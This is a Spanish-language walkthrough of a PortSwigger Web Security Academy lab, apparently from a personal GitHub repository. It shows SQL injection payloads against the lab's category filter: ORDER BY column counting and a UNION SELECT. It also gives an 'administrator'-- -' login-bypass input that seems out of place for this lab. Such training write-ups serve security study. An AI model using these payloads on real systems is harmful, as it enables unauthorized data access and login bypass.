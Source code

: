 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

- [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a `SQL injection UNION` attack that returns an additional row containing null values.

---

### Explicación:

Si solo se pone una comilla da error, ya que el query se quedaría con una sola comilla, es decir, **Se encuentra un error!!!**

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a46c0863-5d12-4127-9887-7d5d1ecd7a1f)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a79c49df-b0d6-47f3-90b8-0c0c9f0e8b1b)

Ahora hay que buscar la manera de Fuzzear y contar.

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a91df05f-15d9-4d60-a5c0-dc72550d5486)




## Solución:

1. En este caso la vulnerabilidad también está en categorías

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/8a87141b-dded-420f-b75f-05439d0def77)

2. Aquí encuentro el error

3.  Salgo adelante del error y hago el conteo de columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle' ORDER BY 3 -- -
````

4. Acomodo las columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  Union Select 1,2,3 -- -
````

````sql
administrator'-- -
````
````http
Username: administrator'-- -
Password: Lo que sea...
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/95856f02-84de-4067-a9af-65183b9bb6a9)





